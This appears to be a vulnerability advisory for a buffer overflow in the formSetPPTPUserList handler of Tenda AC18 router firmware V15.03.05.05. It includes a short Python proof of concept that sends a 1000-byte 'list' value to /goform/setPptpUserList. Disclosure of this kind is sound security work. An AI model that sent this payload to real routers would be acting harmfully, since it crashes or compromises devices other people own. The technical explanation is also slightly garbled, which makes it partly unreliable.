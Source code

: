 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a buffer overflow vulnerability in the `formSetPPTPUserList` function. The `Var` variable receives the `list` parameter from a POST request and is later passed to the `strspn` function. However, since the Since user can control the input of  `list`, the statemeant `v4 = strspn(Var, "~");` can cause a buffer overflow.

## POC

```python
import requests

ip = "192.168.1.1"

url = f'http://{ip}/goform/setPptpUserList'
payload = b'a' * 1000
data = {
    'list':payload
}

requests.post(url, data=data)
```

![image-20250603000202009](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250603000202009.png)
